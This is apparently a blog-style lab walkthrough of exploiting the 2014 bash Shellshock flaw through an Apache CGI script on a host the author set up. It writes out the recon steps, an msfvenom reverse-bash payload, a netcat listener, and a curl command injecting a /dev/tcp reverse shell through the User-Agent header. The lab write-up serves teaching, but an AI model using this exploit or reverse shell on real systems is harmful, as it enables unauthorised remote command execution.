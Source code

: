 # Exploiting Shellshock

Shellshock is a vulnerability found in bash that affected versions of bash up until version 4.3.
In 2014, Stephane Chazelas discovered bash would evaluate commands after a function definition inside of environment variables.

I've set up a host to demonstrate this vulnerability by way of Apache's Mod_CGI.

An initial scan of the host show's port 80 listening.

![nmap scan of a host showing port 80 listening](images/shellshock/nmap.png)

Of course, versioning of Apache might hint at the vulnerability, but the vulnerability is in bash, not Apache.
Using dirb on the host shows a directory, /cgi-bin, we might find interesting.

![dirb running against the host showing a 403 status code for /cgi-bin](images/shellshock/dirbroot.png)

Eventually, dirb looks at subdirectories, but runing it against /cgi-bin shows us a CGI script "hello".

![dirb running against the host in /cgi-bin, showing the hello script](images/shellshock/dirbcgi.png)

Visiting this URL shows the output of a hello world program and that it was generated with a version of bash that's vulnerable to shellshock.

![the output of running the hello cgi script, showing "Hello, world!" and that it was generated with bash 4.1.5](images/shellshock/cgihello.png)

The reason we're able to exploit bash CGI scripts in this manner is because Apache's Mod_CGI calls the script with environment variables we've passed in the form of our user agent.

First thing's first, we need to generate a reverse shell. Let's do so using msfvenom.

!["msfvenom -p cmd/unix/reverse_bash LHOST=192.168.122.1 LPORT=4444" with output of "0<&67-;exec 67<>/dev/tcp/192.168.122.1/4444;sh <&67 >&67 2>&67"](images/shellshock/msfvenom.png)

Now we can start our netcat listener with "nc -lnvp 4444" and craft our exploit using curl.

![curl -H "user-agent: () { :; }; 0<&67-;exec 67<>/dev/tcp/192.168.122.1/4    444;sh <&67 >&67 2>&67" http://192.168.122.130/cgi-bin/hello](images/shellshock/exploit.png)

After running that, we catch our reverse shell and do whatever it is we do.

![netcat listener showing a connection with us verifying it by running uname and id](images/shellshock/shell.png)

